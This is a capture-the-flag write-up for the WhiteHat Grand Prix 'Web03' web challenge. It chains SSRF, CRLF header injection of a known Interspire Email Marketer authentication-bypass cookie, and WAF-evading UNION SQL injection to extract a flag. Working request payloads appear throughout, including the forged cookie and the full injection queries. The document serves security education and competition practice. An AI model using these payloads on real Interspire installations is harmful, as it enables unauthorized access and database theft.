 Web03  
Description: None  
web03.grandprix.whitehatvn.com:1337  
Solves: 10  
Points: 410  
Team: OpenToAll  

--------------------------------------

The challenge starts with a web app that asks for a Host and a Urlpath. These are  
used to load remote web pages in the style of:

Host: 202.182.120.169:1337  
Urlpath: index.php  
Request = http://202.182.120.169:1337/index.php

![initialchallenge](screenshots/initialchallenge.png)

In the HTML comments of the page:  

`<!--<label>@Buxu: Let's try to access admin page</label></br> -->`  

After searching for /admin related pages on the website and finding nothing,  
I did a port scan of the localhost network. Using Burp Intruder I checked every  
port with requests:

Host: 127.0.0.1:{var}  
Urlpath: admin/

Eventually I discovered another web app running on 127.0.0.1:8088.

![Port8088](screenshots/port8088.png)

From here on, I used Burp  
repeater for all of my requests. It comes back in slightly encoded HTML, but I was able to roughly  
render it using the following site:

https://htmledit.squarefree.com/

The annoying process was:
1. Copy output from HTTP Response into top box of htmledit
2. Copy output from html edit back into the input for htmledit
3. Enjoy my not-so-beautifully rendered HTML

![htmlrender](screenshots/htmlrender.png)

At the time of writing this, I'm noticing that the output looks a LOT better if  
you receive it through the challenge app instead of through Burp. Oh well!

Back to exploiting:

The  web app on 8088 is a service called Interspire Email Marketer. After some quick
googling, I found the following on exploitdb:

https://www.exploit-db.com/exploits/44513/

TLDR; there's a master cookie that should let us bypass auth. Awesome! Except it's SSRF,  
so how to control the cookie...? CRLF!

(From here on, the Host is always "127.0.0.1:8088")

We can send requests in the following style:

Urlpath = `admin/index.php HTTP/1.1\r\nCookie: mycookie=foobar\r\n`

Using this format and the god cookie, we get the following ugly request:

```
admin/index.php \r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

After doing the render magic, it's shown that I suddenly have admin access (as buxuwa). Yay!  

![admin](screenshots/adminaccess_1.png)
![buxuwa](screenshots/buxuwa.png)

I got stuck here for a while, trying to find a flag in the contact lists or e-mails. After giving up on that,  
I found another vulnerability in Interspire Email Marketer on exploitdb:

https://www.exploit-db.com/exploits/37935/

There's a sqlinjection via the dynamiccontenttags Addon! We just need to use a payload of:

`?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1'+UNION+Select+1,2,3,4-- -`

When trying to get this to work, I quickly discovered there's a WAF that prevents certain
common SQLi commands from being sent via the challenge webapp.
`', ", UNION, OFFSET` were all forbidden.

![waf](screenshots/waf.png)

However, URL encoding any of these characters worked perfectly.  
`UNION` becomes `%55NION` (%55 == 'U')  
`'` becomes '%27'

(I've changed the 2 to 'Hello Hackers' for this screenshot)

![sqli](screenshots/sqli.png)
![rendered_sqli](screenshots/rendered_sqli.png)


From here it's very standard MySQL injection. Using the payloads here:  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

I was able to enumerate through databases, tables, and columns using the '2' in the UNION query above as my  
output point. (anything in that spot will be displayed in the response).

It's discovered that we're in database "emailmarketer" and there's a table called "flag_wh"
with column "s3cret":

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+Select+1,table_name,3,4+FROM+information_schema.tables+WHERE+table_schema+=%27emailmarketer%27--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag_wh](screenshots/flag_wh.png)
![flag_wh_rendered](screenshots/flag_wh_rendered.png)

Screenshot and query above shows finding the flag_wh table.


So now it's as easy as getting `s3cret` from `flag_wh`:

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+SELECT+1,s3cret,3,4+FROM+flag_wh--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag](screenshots/flag.png)
![flag](screenshots/flag_rendered.png)

`WhiteHat{cbb66097f69c3938bfd4a157ab4ebe762a16c1b1}`

After solving it, I was contacted by an admin who informed be that using dynamiccontenttags was not  
the intended solution. Apparently there's some other method to exploit it,  
but I have no idea what it is.
